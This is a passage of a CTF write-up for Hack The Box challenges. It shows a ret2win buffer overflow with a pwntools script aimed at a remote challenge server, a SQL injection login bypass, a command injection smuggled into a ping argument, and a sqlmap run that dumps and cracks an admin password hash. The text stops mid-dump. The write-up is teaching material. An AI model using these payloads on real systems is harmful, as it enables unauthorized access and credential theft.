│           0x0040127b      488d3d960d00.  lea rdi, str.________________O_________________n___________________________________n__________________________________n____n_______________________________n_______________________________n_______________________________n_______________________________n_n ; 0x402018 ; "                \O/               \n                 |                 \n                / \               \n\u2592\u2592\u2592\u2592\u2592\u2592\u2592\u2592\u2592\u2592\u2592\u2592\u2592\u2592\u2592\u2592   \u2592\u2592\u2592\u2592\u2592\u2592\u2592\u2592\u2592\u2592\u2592\u2592\u2592\u2592\u2592\u2592\n\u2592-\u25b8        \u2592           \u2592          \u2592\n\u2592-\u25b8        \u2592           \u2592          \u2592\n\u2592-\u25b8        \u2592           \u2592          \u2592\n\u2592-\u25b8        \u2592           \u2592          \u2592\n\u2592\u2592\u2592\u2592\u2592\u2592\u2592\u2592\u2592\u2592\u2592\u2592\u2592\u2592\u2592\u2592\u2592\u2592\u2592\u2592\u2592\u2592\u2592\u2592\xe2" ; const void *ptr           
│           0x00401282      e8a9feffff     call sym.imp.fwrite         ; size_t fwrite(const void *ptr, size_t size, size_t nitems, FILE *stream)                                                                                       
│           0x00401287      488b05822d00.  mov rax, qword [obj.stdout] ; obj.__TMC_END__
│                                                                      ; [0x404010:8]=0                             
│           0x0040128e      488d0d740f00.  lea rcx, str.e_0m           ; 0x402209
│           0x00401295      488d15720f00.  lea rdx, str.e_1_32m        ; 0x40220e
│           0x0040129c      488d35750f00.  lea rsi, str._n_sCongratulations_on_escaping__Here_is_a_sacred_spell_to_help_you_continue_your_journey:__s_n ; 0x402218 ; "\n%sCongratulations on escaping! Here is a sacred spell to help you continue your journey: %s\n" ; const char *format                                                                 
│           0x004012a3      4889c7         mov rdi, rax                ; FILE *stream
│           0x004012a6      b800000000     mov eax, 0
│           0x004012ab      e810feffff     call sym.imp.fprintf        ; int fprintf(FILE *stream, const char *format,   ...)                                                                                                           
│           0x004012b0      be00000000     mov esi, 0                  ; int oflag
│           0x004012b5      488d3dba0f00.  lea rdi, str.._flag.txt     ; 0x402276 ; "./flag.txt" ; const char *path
│           0x004012bc      b800000000     mov eax, 0
│           0x004012c1      e82afeffff     call sym.imp.open           ; int open(const char *path, int oflag)
│           0x004012c6      8945fc         mov dword [fildes], eax
│           0x004012c9      837dfc00       cmp dword [fildes], 0
│       ┌─< 0x004012cd      792e           jns 0x4012fd
│       │   0x004012cf      488d3db20f00.  lea rdi, str._nError_opening_flag.txt__please_contact_an_Administrator._n_n ; 0x402288 ; "\nError opening flag.txt, please contact an Administrator.\n\n" ; const char *s                    
<...SNIP...>
```

We can see a victory text at address `0x0040129c`. A little further down we can see actions to open and print the flag.txt. If we can return tho this address, we might be able to produce a victory screen. Firstly, to determine the offset of the overflow:

```
$ /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 300               
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9
```

running in gdb:
```
[----------------------------------registers-----------------------------------]
RAX: 0x0 
RBX: 0x0 
RCX: 0x7ffff7d14a37 (<write+23>:        cmp    rax,0xfffffffffffff000)
RDX: 0x0 
RSI: 0x7fffffffbc20 --> 0x6d31333b315b1b0a 
RDI: 0x7fffffffbb00 --> 0x7ffff7c620d0 (<funlockfile>:  endbr64)
RBP: 0x5f6e726574746170 ('pattern_')
RSP: 0x7fffffffdd78 ("create.rb -")
RIP: 0x401602 (<main+509>:      ret)
R8 : 0x23 ('#')
R9 : 0x7ffff7d7cd70 (mov    r10,QWORD PTR [rsi-0x1b])
R10: 0x20554f59205d2d5b ('[-] YOU ')
R11: 0x246 
R12: 0x7fffffffde88 --> 0x7fffffffe1da ("/home/kali/Documents/cyber_apocalyse/pwn/challenge/labyrinth")
R13: 0x401405 (<main>:  push   rbp)
R14: 0x0 
R15: 0x7ffff7ffd040 --> 0x7ffff7ffe2e0 --> 0x0
EFLAGS: 0x10202 (carry parity adjust zero sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x4015f7 <main+498>: call   0x4010c0 <fprintf@plt>
   0x4015fc <main+503>: mov    eax,0x0
   0x401601 <main+508>: leave
=> 0x401602 <main+509>: ret
   0x401603:    cs nop WORD PTR [rax+rax*1+0x0]
   0x40160d:    nop    DWORD PTR [rax]
   0x401610 <__libc_csu_init>:  push   r15
   0x401612 <__libc_csu_init+2>:        lea    r15,[rip+0x2727]        # 0x403d40
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffdd78 ("create.rb -")
0008| 0x7fffffffdd80 --> 0x2d2062 ('b -')
0016| 0x7fffffffdd88 --> 0x401405 (<main>:      push   rbp)
0024| 0x7fffffffdd90 --> 0x100000000 
0032| 0x7fffffffdd98 --> 0x7fffffffde88 --> 0x7fffffffe1da ("/home/kali/Documents/cyber_apocalyse/pwn/challenge/labyrinth")
0040| 0x7fffffffdda0 --> 0x0 
0048| 0x7fffffffdda8 --> 0x78a85a85f5d4e10b 
0056| 0x7fffffffddb0 --> 0x7fffffffde88 --> 0x7fffffffe1da ("/home/kali/Documents/cyber_apocalyse/pwn/challenge/labyrinth")
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x0000000000401602 in main ()
```
The RBP contains an overflow address `0x6241376241366241`. Calculating offset:
```
$ /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 0x6241376241366241
[*] Exact match at offset 48
```
Double checking offset:
```
$ python -c 'print("A"*48+"B"*8)'
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBB
```
gdb test
```
[----------------------------------registers-----------------------------------]                                    
RAX: 0x0                                                                                                            
RBX: 0x0                                                                                                            
RCX: 0x7ffff7d14a37 (<write+23>:        cmp    rax,0xfffffffffffff000)                                              
RDX: 0x0                                                                                                            
RSI: 0x7fffffffbc20 --> 0x6d31333b315b1b0a                                                                          
RDI: 0x7fffffffbb00 --> 0x7ffff7c620d0 (<funlockfile>:  endbr64)                                                    
RBP: 0x4242424242424242 ('BBBBBBBB')                                                                                
RSP: 0x7fffffffdd80 --> 0x0                                                                                         
RIP: 0x7ffff7c2000a --> 0x1000000000000                                                                             
R8 : 0x23 ('#')                                                                                                     
R9 : 0x7ffff7d7cd70 (mov    r10,QWORD PTR [rsi-0x1b])                                                               
R10: 0x20554f59205d2d5b ('[-] YOU ')                                                                                
R11: 0x246                                                                                                          
R12: 0x7fffffffde88 --> 0x7fffffffe1da ("/home/kali/Documents/cyber_apocalyse/pwn/challenge/labyrinth")             
R13: 0x401405 (<main>:  push   rbp)                                                                                 
R14: 0x0                                                                                                            
R15: 0x7ffff7ffd040 --> 0x7ffff7ffe2e0 --> 0x0                                                                      
EFLAGS: 0x10202 (carry parity adjust zero sign trap INTERRUPT direction overflow)                                   
[-------------------------------------code-------------------------------------]                                    
   0x7ffff7c20003:      add    BYTE PTR [rax],cl                                                                    
   0x7ffff7c20005:      add    BYTE PTR [rax],al                                                                    
   0x7ffff7c20007:      add    BYTE PTR [rdi+0x7e],dl                                                               
=> 0x7ffff7c2000a:      add    BYTE PTR [rax],al                                                                    
   0x7ffff7c2000c:      add    BYTE PTR [rax],al                                                                    
   0x7ffff7c2000e:      add    BYTE PTR [rax],al                                                                    
   0x7ffff7c20010:      add    DWORD PTR [rax],eax                                                                  
   0x7ffff7c20012:      add    BYTE PTR [rax],al                                                                    
[------------------------------------stack-------------------------------------]                                    
0000| 0x7fffffffdd80 --> 0x0                                                                                        
0008| 0x7fffffffdd88 --> 0x401405 (<main>:      push   rbp)                                                         
0016| 0x7fffffffdd90 --> 0x100000000                                                                                
0024| 0x7fffffffdd98 --> 0x7fffffffde88 --> 0x7fffffffe1da ("/home/kali/Documents/cyber_apocalyse/pwn/challenge/labyrinth")                                                                                                             
0032| 0x7fffffffdda0 --> 0x0                                                                                        
0040| 0x7fffffffdda8 --> 0xb6dc04cf7d4b5e83                                                                         
0048| 0x7fffffffddb0 --> 0x7fffffffde88 --> 0x7fffffffe1da ("/home/kali/Documents/cyber_apocalyse/pwn/challenge/labyrinth")                                                                                                             
0056| 0x7fffffffddb8 --> 0x401405 (<main>:      push   rbp)                                                         
[------------------------------------------------------------------------------]                                    
Legend: code, data, rodata, value                                                                                   
Stopped reason: SIGSEGV                                                                                             
0x00007ffff7c2000a in ?? () from ./glibc/libc.so.6 
```
RBP: 0x4242424242424242 ('BBBBBBBB'). We know our overflow is successful, and now we can put whatever payload for the return function.

First we can try pointing to the start of escape plan:
```
$ python2 -c 'print("69+\n"+"A"*48+"\x55\x12\x40\x00\x00\x00\x00\x00")' | ./labyrinth
<...SNIP...>
Would you like to change the door you chose?

>> 
[-] YOU FAILED TO ESCAPE!

zsh: done                python2 -c 'print("69+\n"+"A"*48+"\x55\x12\x40\x00\x00\x00\x00\x00")' | 
zsh: segmentation fault  ./labyrinth
```
Unfortunately preparing it this way does not work so well. I found a [writeup](https://mregraoncyber.com/rop-emporium-writeup-ret2win/) for a similar ret2win problem that discusses the need for an additional return due in newer Ubuntu versions due to a MOVAPS issue. I'll try this:

```
python2 -c 'print("69+\n"+"A"*48+"\x16\x10\x40\x00\x00\x00\x00\x00"+"\x55\x12\x40\x00\x00\x00\x00\x00")' | ./labyrinth
<...snip...>
Would you like to change the door you chose?

>> 
[-] YOU FAILED TO ESCAPE!


                \O/               
                 |                 
                / \               
▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒   ▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒
▒-▸        ▒           ▒          ▒
▒-▸        ▒           ▒          ▒
▒-▸        ▒           ▒          ▒
▒-▸        ▒           ▒          ▒
▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▲△▲△▲△▲△▲△▒
zsh: done                python2 -c  | 
zsh: segmentation fault  ./labyrinth
```

We have a happy escapee, but we don't see the victory text or our flag. The return seems successful, but our target address isn't quite right? After this step I decided to write a python script that will be able to connect to the remote server and submit our payload. Lastly, after guessing a few addresses within escape_plan, I finally landed on one that works.
```python
from pwn import *

#elf = ELF('labyrinth')

p = remote('167.172.50.208', 30667)

payload = b"A"*48
payload += p64(0x401016)
payload += p64(0x401256)


p.sendline("69")
p.sendline(payload)
p.interactive()

response = p.recvall()
print(re.search("(ROPE{.*?})",response.decode()))
```
Full output from payload:
```
$ python escape.py
[+] Opening connection to 178.62.9.10 on port 31908: Done
/home/kali/Documents/cyber_apocalyse/pwn/challenge/e2.py:12: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  p.sendline("69")
[*] Switching to interactive mode
                                                                                                                    
▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒                                                                                 
▒-▸        ▒           ▒          ▒                                                                                 
▒-▸        ▒     O     ▒          ▒                                                                                 
▒-▸        ▒    '|'    ▒          ▒                                                                                 
▒-▸        ▒    / \    ▒          ▒                                                                                 
▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▲△▲△▲△▲△▲△▒                                                                                 
                                                                                                                    
Select door:                                                                                                        
                                                                                                                    
Door: 001 Door: 002 Door: 003 Door: 004 Door: 005 Door: 006 Door: 007 Door: 008 Door: 009 Door: 010                 
Door: 011 Door: 012 Door: 013 Door: 014 Door: 015 Door: 016 Door: 017 Door: 018 Door: 019 Door: 020                 
Door: 021 Door: 022 Door: 023 Door: 024 Door: 025 Door: 026 Door: 027 Door: 028 Door: 029 Door: 030                 
Door: 031 Door: 032 Door: 033 Door: 034 Door: 035 Door: 036 Door: 037 Door: 038 Door: 039 Door: 040                 
Door: 041 Door: 042 Door: 043 Door: 044 Door: 045 Door: 046 Door: 047 Door: 048 Door: 049 Door: 050                 
Door: 051 Door: 052 Door: 053 Door: 054 Door: 055 Door: 056 Door: 057 Door: 058 Door: 059 Door: 060                 
Door: 061 Door: 062 Door: 063 Door: 064 Door: 065 Door: 066 Door: 067 Door: 068 Door: 069 Door: 070                 
Door: 071 Door: 072 Door: 073 Door: 074 Door: 075 Door: 076 Door: 077 Door: 078 Door: 079 Door: 080                 
Door: 081 Door: 082 Door: 083 Door: 084 Door: 085 Door: 086 Door: 087 Door: 088 Door: 089 Door: 090                 
Door: 091 Door: 092 Door: 093 Door: 094 Door: 095 Door: 096 Door: 097 Door: 098 Door: 099 Door: 100                 
                                                                                                                    
>>                                                                                                                  
You are heading to open the door but you suddenly see something on the wall:

"Fly like a bird and be free!"

Would you like to change the door you chose?

>> 
[-] YOU FAILED TO ESCAPE!                                                                                           
                                                                                                                    
                                                                                                                    
                \O/                                                                                                 
                 |                                                                                                  
                / \                                                                                                 
▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒   ▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒                                                                                 
▒-▸        ▒           ▒          ▒                                                                                 
▒-▸        ▒           ▒          ▒                                                                                 
▒-▸        ▒           ▒          ▒                                                                                 
▒-▸        ▒           ▒          ▒                                                                                 
▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▲△▲△▲△▲△▲△▒                                                                                 
                                                                                                                    
Congratulations on escaping! Here is a sacred spell to help you continue your journey: 
HTB{3sc4p3_fr0m_4b0v3}
```
We managed to get the flag, but working out the address ended up as guess-and-check for me.
`HTB{3sc4p3_fr0m_4b0v3}`

## Web
### Drobots
>Pandora's latest mission as part of her reconnaissance training is to infiltrate the Drobots firm that was suspected of engaging in illegal activities. Can you help pandora with this task?
__Difficulty: very easy__
---
Visiting the site gives us a generic login page. Trying the classic admin:admin and admin:password failed, so it's time to take a look at the source code supplied. Exploring database.py we see the following configuration:
```
def login(username, password):
    # We should update our code base and use techniques like parameterization to avoid SQL Injection
    user = query_db(f'SELECT password FROM users WHERE username = "{username}" AND password = "{password}" ', one=True)
```
The comment is a pretty plain hint that this SQL query is not well sanitized, and allows for very basic SQL injection.
For our user submission, we will escape the username query with ", then bypass a password check with "OR 1=1 -- ". The end result is we will login if the database can find a user called "" or if the value 1 is equal to 1. Since the latter is always true, we should login. Note that the space after comment lines -- must be present, or else this will be interpreted as minus.


The password will never be checked, so this can be whatever.
Just like that, we are in. And the flag is first up on the table.



`HTB{p4r4m3t3r1z4t10n_1s_1mp0rt4nt!!!}`

### Gunhead
>During Pandora's training, the Gunhead AI combat robot had been tampered with and was now malfunctioning, causing it to become uncontrollable. With the situation escalating rapidly, Pandora used her hacking skills to infiltrate the managing system of Gunhead and urgently needs to take it down.
__Difficulty: very easy__
---
Visiting the website we see a lot of text, and the only interactable piece seems to be a pull-up console:


Our options for commands are extremely limited. Perhaps the provided source code can give us  more insight?
In ReconModel.php, we see how the program handles this ping command:
```
$ cat ReconModel.php 
<?php
#[AllowDynamicProperties]

class ReconModel
{   
    public function __construct($ip)
    {
        $this->ip = $ip;
    }

    public function getOutput()
    {
        # Do I need to sanitize user input before passing it to shell_exec?
        return shell_exec('ping -c 3 '.$this->ip);
    }
}
```
We have a commented note pointing out the lack of sanitization within the shell_exec. We should be able to use this /ping command to execute multiple shell commands when we include a break;
Testing with id:
```
/ping 8.8.8.8; id
```


We see the 2nd shows our id. This command injection is successful. We will probe the current directory, and since there's no harm, take a guess that flag.txt is in our current directory:



We didn't hit it this time, but using this command scheme we can keep using `ls` to poke around for the flag. Or we can try `find`.


Now we find it in probably the next most likely location, the base directory.


`HTB{4lw4y5_54n1t1z3_u53r_1nput!!!}`

### Orbital
>In order to decipher the alien communication that held the key to their location, she needed access to a decoder with advanced capabilities - a decoder that only The Orbital firm possessed. Can you get your hands on the decoder?
__Difficulty: easy__
---
Visiting the site shows us a generic login page. After trying the classic admin:admin and admin:password credentials, perhaps we can find more information on what's happening by viewing the provided source code.
When viewing the `database.py`, we find an interesting hint/note:
```
def login(username, password):
    # I don't think it's not possible to bypass login because I'm verifying the password later.
    user = query(f'SELECT username, password FROM users WHERE username = "{username}"', one=True)

    if user:
        passwordCheck = passwordVerify(user['password'], password)

        if passwordCheck:
            token = createJWT(user['username'])
            return token
    else:
        return False
```
Our SQL injection approach from Drobots has been remedied. Even when we bypass the username input check, the password is verified in a separate instance. Problem solved, or is it?

Before moving on to probing SQL injection further, I check for potentially alternative pages by looking at the `routes.py` file. The only other page is an /export page, that requires a valid JSON token. So we will explore the login bypass further.

Instead of manually checking a variety of SQL payloads, we will employ a tool to make this quick and easy: SQLmap. SQLmap can be easily set up to do post requests by passing it the request information in a file:
```
$ cat post.txt         
POST /api/login HTTP/1.1
Host: 68.183.45.143:30274
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://68.183.45.143:30274/
Content-Type: application/json
Origin: http://68.183.45.143:30274
Content-Length: 42
Connection: close

{"username":"admin","password":"password"}
```


Full sqlmap dump output.
```
$ sqlmap -r post.txt -p username --dbms=mysql --dump 
        ___
       __H__                                                                                                                                                                                                                               
 ___ ___[(]_____ ___ ___  {1.7.2#stable}                                                                                                                                                                                                   
|_ -| . [,]     | .'| . |                                                                                                                                                                                                                  
|___|_  ["]_|_|_|__,|  _|                                                                                                                                                                                                                  
      |_|V...       |_|   https://sqlmap.org                                                                                                                                                                                               

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 19:23:08 /2023-03-20/

[19:23:08] [INFO] parsing HTTP request from 'post.txt'
JSON data found in POST body. Do you want to process it? [Y/n/q] y
[19:23:16] [INFO] testing connection to the target URL
[19:23:16] [WARNING] the web server responded with an HTTP error code (403) which could interfere with the results of the tests
[19:23:16] [INFO] checking if the target is protected by some kind of WAF/IPS
[19:23:16] [INFO] testing if the target URL content is stable
[19:23:16] [INFO] target URL content is stable
[19:23:16] [INFO] heuristic (basic) test shows that (custom) POST parameter 'JSON username' might be injectable (possible DBMS: 'MySQL')
[19:23:17] [INFO] testing for SQL injection on (custom) POST parameter 'JSON username'
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] 
[19:23:20] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[19:23:22] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
[19:23:22] [INFO] testing 'Generic inline queries'
[19:23:22] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause (MySQL comment)'
[19:23:25] [WARNING] reflective value(s) found and filtering out
[19:23:28] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause (MySQL comment)'
[19:23:34] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause (NOT - MySQL comment)'
[19:23:40] [INFO] testing 'MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause'
[19:23:51] [INFO] testing 'MySQL AND boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause (MAKE_SET)'
[19:24:02] [INFO] testing 'MySQL OR boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause (MAKE_SET)'
[19:24:12] [INFO] testing 'MySQL AND boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause (ELT)'
[19:24:23] [INFO] testing 'MySQL OR boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause (ELT)'
[19:24:33] [INFO] testing 'MySQL AND boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause (bool*int)'
[19:24:52] [INFO] testing 'MySQL OR boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause (bool*int)'
[19:25:02] [INFO] testing 'MySQL boolean-based blind - Parameter replace (MAKE_SET)'
[19:25:02] [INFO] testing 'MySQL boolean-based blind - Parameter replace (MAKE_SET - original value)'
[19:25:02] [INFO] testing 'MySQL boolean-based blind - Parameter replace (ELT)'
[19:25:03] [INFO] testing 'MySQL boolean-based blind - Parameter replace (ELT - original value)'
[19:25:03] [INFO] testing 'MySQL boolean-based blind - Parameter replace (bool*int)'
[19:25:03] [INFO] testing 'MySQL boolean-based blind - Parameter replace (bool*int - original value)'
[19:25:04] [INFO] testing 'MySQL >= 5.0 boolean-based blind - ORDER BY, GROUP BY clause'
[19:25:04] [INFO] testing 'MySQL >= 5.0 boolean-based blind - ORDER BY, GROUP BY clause (original value)'
[19:25:05] [INFO] testing 'MySQL < 5.0 boolean-based blind - ORDER BY, GROUP BY clause'
[19:25:05] [INFO] testing 'MySQL < 5.0 boolean-based blind - ORDER BY, GROUP BY clause (original value)'
[19:25:05] [INFO] testing 'MySQL >= 5.0 boolean-based blind - Stacked queries'
[19:25:12] [INFO] testing 'MySQL < 5.0 boolean-based blind - Stacked queries'
[19:25:12] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (BIGINT UNSIGNED)'
[19:25:20] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (BIGINT UNSIGNED)'
[19:25:27] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXP)'
[19:25:35] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (EXP)'
[19:25:43] [INFO] testing 'MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)'
[19:25:43] [WARNING] potential permission problems detected ('command denied')
[19:25:51] [INFO] testing 'MySQL >= 5.6 OR error-based - WHERE or HAVING clause (GTID_SUBSET)'
[19:25:59] [INFO] testing 'MySQL >= 5.7.8 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (JSON_KEYS)'
[19:26:06] [INFO] testing 'MySQL >= 5.7.8 OR error-based - WHERE or HAVING clause (JSON_KEYS)'
[19:26:14] [INFO] testing 'MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
[19:26:15] [INFO] (custom) POST parameter 'JSON username' is 'MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)' injectable 
[19:26:15] [INFO] testing 'MySQL inline queries'
[19:26:15] [INFO] testing 'MySQL >= 5.0.12 stacked queries (comment)'
[19:26:15] [INFO] testing 'MySQL >= 5.0.12 stacked queries'
[19:26:15] [INFO] testing 'MySQL >= 5.0.12 stacked queries (query SLEEP - comment)'
[19:26:15] [INFO] testing 'MySQL >= 5.0.12 stacked queries (query SLEEP)'
[19:26:16] [INFO] testing 'MySQL < 5.0.12 stacked queries (BENCHMARK - comment)'
[19:26:16] [INFO] testing 'MySQL < 5.0.12 stacked queries (BENCHMARK)'
[19:26:16] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[19:26:26] [INFO] (custom) POST parameter 'JSON username' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable 
[19:26:26] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[19:26:26] [INFO] testing 'MySQL UNION query (NULL) - 1 to 20 columns'
[19:26:26] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[19:26:27] [INFO] 'ORDER BY' technique appears to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
[19:26:27] [INFO] target URL appears to have 2 columns in query
do you want to (re)try to find proper UNION column types with fuzzy test? [y/N] n
n
[19:26:51] [WARNING] if UNION based SQL injection is not detected, please consider usage of option '--union-char' (e.g. '--union-char=1') 
[19:26:54] [INFO] target URL appears to be UNION injectable with 2 columns
injection not exploitable with NULL values. Do you want to try with a random integer value for option '--union-char'? [Y/n] n
[19:27:02] [INFO] testing 'MySQL UNION query (random number) - 1 to 20 columns'
[19:27:06] [INFO] testing 'MySQL UNION query (NULL) - 21 to 40 columns'
[19:27:09] [INFO] testing 'MySQL UNION query (random number) - 21 to 40 columns'
[19:27:12] [INFO] testing 'MySQL UNION query (NULL) - 41 to 60 columns'
[19:27:15] [INFO] testing 'MySQL UNION query (random number) - 41 to 60 columns'
[19:27:18] [INFO] testing 'MySQL UNION query (NULL) - 61 to 80 columns'
[19:27:21] [INFO] testing 'MySQL UNION query (random number) - 61 to 80 columns'
[19:27:24] [INFO] testing 'MySQL UNION query (NULL) - 81 to 100 columns'
[19:27:27] [INFO] testing 'MySQL UNION query (random number) - 81 to 100 columns'
(custom) POST parameter 'JSON username' is vulnerable. Do you want to keep testing the others (if any)? [y/N] n
sqlmap identified the following injection point(s) with a total of 1397 HTTP(s) requests:
---
Parameter: JSON username ((custom) POST)
    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: {"username":"admin" AND (SELECT 2242 FROM(SELECT COUNT(*),CONCAT(0x71716a6a71,(SELECT (ELT(2242=2242,1))),0x71626b7871,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- IPSK","password":"password"}

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: {"username":"admin" AND (SELECT 4429 FROM (SELECT(SLEEP(5)))Llei)-- Mhzj","password":"password"}
---
[19:27:44] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
[19:27:44] [WARNING] missing database parameter. sqlmap is going to use the current database to enumerate table(s) entries
[19:27:44] [INFO] fetching current database
[19:27:45] [INFO] retrieved: 'orbital'
[19:27:45] [INFO] fetching tables for database: 'orbital'
[19:27:45] [INFO] retrieved: 'communication'
[19:27:45] [INFO] retrieved: 'users'
[19:27:45] [INFO] fetching columns for table 'users' in database 'orbital'
[19:27:45] [INFO] retrieved: 'id'
[19:27:46] [INFO] retrieved: 'int(11)'
[19:27:46] [INFO] retrieved: 'username'
[19:27:46] [INFO] retrieved: 'varchar(255)'
[19:27:46] [INFO] retrieved: 'password'
[19:27:46] [INFO] retrieved: 'varchar(255)'
[19:27:46] [INFO] fetching entries for table 'users' in database 'orbital'
[19:27:46] [INFO] retrieved: '1'
[19:27:47] [INFO] retrieved: '1692b753c031f2905b89e7258dbc49bb'
[19:27:47] [INFO] retrieved: 'admin'
[19:27:47] [INFO] recognized possible password hashes in column 'password'
do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] y
[19:28:10] [INFO] writing hashes to a temporary file '/tmp/sqlmapxmrfdr0m9619/sqlmaphashes-xvcfw_me.txt' 
do you want to crack them via a dictionary-based attack? [Y/n/q] y
[19:28:13] [INFO] using hash method 'md5_generic_passwd'
what dictionary do you want to use?
[1] default dictionary file '/usr/share/sqlmap/data/txt/wordlist.tx_' (press Enter)
[2] custom dictionary file
[3] file with list of dictionary files
> 1
[19:28:17] [INFO] using default dictionary
do you want to use common password suffixes? (slow!) [y/N] n
[19:28:23] [INFO] starting dictionary-based cracking (md5_generic_passwd)
[19:28:23] [INFO] starting 2 processes 
[19:28:33] [INFO] cracked password 'ichliebedich' for user 'admin'                                                                                                                                                                        
Database: orbital                                                                                                                                                                                                                         
Table: users
[1 entry]
+----+-------------------------------------------------+----------+
| id | password                                        | username |
+----+-------------------------------------------------+----------+
| 1  | 1692b753c031f2905b89e7258dbc49bb (ichliebedich) | admin    |
+----+-------------------------------------------------+----------+

[19:28:55] [INFO] table 'orbital.users' dumped to CSV file '/home/kali/.local/share/sqlmap/output/68.183.45.143/dump/orbital/users.csv'
[19:28:55] [INFO] fetching columns for table 'communication' in database 'orbital'
[19:28:55] [INFO] retrieved: 'id'
[19:28:55] [INFO] retrieved: 'int(11)'
[19:28:55] [INFO] retrieved: 'source'
[19:28:56] [INFO] retrieved: 'varchar(255)'
[19:28:56] [INFO] retrieved: 'destination'
[19:28:56] [INFO] retrieved: 'varchar(255)'
[19:28:56] [INFO] retrieved: 'name'
[19:28:56] [INFO] retrieved: 'varchar(255)'
[19:28:56] [INFO] retrieved: 'downloadable'
[19:28:57] [INFO] retrieved: 'varchar(255)'
[19:28:57] [INFO] fetching entries for table 'communication' in database 'orbital'
[19:28:57] [INFO] retrieved: 'Arcturus'
[19:28:57] [INFO] retrieved: 'communication.mp3'
[19:28:57] [INFO] retrieved: '1'
[19:28:57] [INFO] retrieved: 'Ice World Calling Red Giant'
[19:28:57] [INFO] retrieved: 'Titan'
[19:28:58] [INFO] retrieved: 'Vega'
[19:28:58] [INFO] retrieved: 'communication.mp3'
[19:28:58] [INFO] retrieved: '2'
[19:28:58] [INFO] retrieved: 'Spiral Arm Salutations'
[19:28:58] [INFO] retrieved: 'Andromeda'
[19:28:58] [INFO] retrieved: 'Trappist-1'
[19:28:58] [INFO] retrieved: 'communication.mp3'
[19:28:59] [INFO] retrieved: '3'
[19:28:59] [INFO] retrieved: 'Lone Star Linkup'
[19:28:59] [INFO] retrieved: 'Proxima Centauri'
[19:28:59] [INFO] retrieved: 'Kepler-438b'
[19:28:59] [INFO] retrieved: 'communication.mp3'
[19:29:00] [INFO] retrieved: '4'
[19:29:00] [INFO] retrieved: 'Small World Symposium'
